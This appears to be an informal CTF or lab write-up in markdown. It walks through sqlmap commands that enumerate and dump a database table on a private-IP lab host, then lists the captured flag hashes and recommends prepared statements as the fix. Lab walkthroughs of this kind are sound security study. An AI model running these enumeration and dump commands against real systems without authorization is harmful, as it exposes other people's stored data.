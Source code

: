 # SQL_Injection
Ahhhh the notorious SQL Injection again. blah blah blah we know the drill. However this time we will make use of a web scanning programme, that will not only find the web application's vulnerabilities but also also exploit them for us. It is called sqlmap.

## Example
For this part we will be making use of out terminal. We'll use the same url like the one we used in SQL_Injection. By using a series of commands we will not only be able to view the database but also save and make use of it's contents

## Commands
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a>
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dbs
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --tables -D Member_images
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --columns -D Member_images -T list_mages
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dump -D Member_images -T list_mages
> options [Y, Y, D, N]

## Retrieved Data
* flag md5 : 1928e8083cf461a51303633093573c46
* flag sh256: 5d5b09f6dcb2d53a5fffc60c4ac0d55fabdf556069d6631545f42aa6e3500f2e

## Remedy
* Similar to direct SQL_Injection this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input. sqlmap uses similar these vulnerabilities to exploit and so without them it will not work.

# Resources
* z